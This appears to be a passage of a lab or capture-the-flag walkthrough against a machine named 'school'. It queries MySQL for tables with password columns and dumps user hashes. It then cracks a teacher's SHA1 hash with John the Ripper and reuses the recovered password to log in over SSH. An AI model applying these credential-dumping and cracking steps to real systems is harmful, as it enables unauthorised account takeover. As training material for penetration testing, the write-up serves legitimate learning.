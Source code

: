 `mysql> select table_name`
`select table_name`
    `-> from information_schema.columns`
`from information_schema.columns`
    `-> where table_schema = 'school_mgment'`
`where table_schema = 'school_mgment'`
    `-> and column_name = 'password';`
`and column_name = 'password';`
`+------------+`
`| TABLE_NAME |`
`+------------+`
`| admin      |`
`| parent     |`
`| student    |`
`| teacher    |`
`+------------+`
`4 rows in set (0.00 sec)`

We get these 3 passwords from the tables

Formed the select statements to only get the important columns to make the output readable
`select teacher_id,name,email,password from teacher where password is not null and password !="";`

Admin table
`1 | Administrator | admin@school.pg | 07133445656 | 9be3a2dd3a71f3ccc7cc7eb3a5dd997f`
Student table
`45 | Testing Student | student@student.com | 8110eda4d09e062aa5e4a390b0a572ac0d2c0220` 
Teacher table
`1 | Testing Teacher | michael_sander@school.pg | 3db12170ff3e811db10a76eadd9e9986e3c1a5b7`

We were able to crack the teacher's hash
`Loaded 1 password hash (raw-SHA1-opencl [SHA1 OpenCL])`
`Note: This format may be a lot faster with --mask acceleration (see doc/MASK).`
`LWS=128 GWS=2097152`
`Press Ctrl-C to abort, or send SIGUSR1 to john process for status`
`greatteacher123  (?)`     
`1g 0:00:00:00 DONE (2024-02-10 21:07) 1.543g/s 12945Kp/s 12945Kc/s 12945KC/s greatteacher123..ejrhay`
`Use the "--show --format=raw-SHA1-opencl" options to display all of the cracked passwords reliably`
`Session completed.` 

Looking on the system, it might be for the msander user
`www-data@school:/home$ ls -l`
`ls -l`
`total 8`
`drwxr-xr-x 4 emiller emiller 4096 Feb 10 23:42 emiller`
`drwxr-xr-x 4 msander msander 4096 Feb 10 22:49 msander

It is and we can ssh with it
`└─$ ssh msander@192.168.151.13`
`Warning: Permanently added '192.168.151.13' (ED25519) to the list of known hosts.`
`msander@192.168.151.13's password:` 
`Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-146-generic x86_64)`
